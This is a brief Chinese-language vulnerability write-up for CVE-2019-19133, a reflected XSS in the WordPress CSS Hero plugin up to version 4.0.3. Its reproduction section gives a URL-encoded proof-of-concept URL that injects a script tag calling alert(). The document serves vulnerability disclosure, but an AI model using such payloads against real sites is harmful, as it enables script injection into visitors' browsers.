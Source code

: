 ```yaml
---
title: （CVE-2019-19133）WordPress Plugin - CSS Hero 4.0.3 反射xss
id: zhfly3254
---
```


# （CVE-2019-19133）WordPress Plugin - CSS Hero 4.0.3 反射xss

## 一、漏洞简介

## 二、漏洞影响

CSS Hero插件 (<= v.4.0.3)

## 三、复现过程

首先WordPress应用中确保CSS Hero Plugin安装。

poc

```
hxxp://
0-sec.org/?csshero_action=edit_page&rand=1015&foo%22%3E%3C/iframe%3E%3Cscript%3Ealert(%27Reflected%20XSS%20in%20CSS%20Hero%204.0.3%27)%3C/script%3E%3Ciframe%3Ebar 
```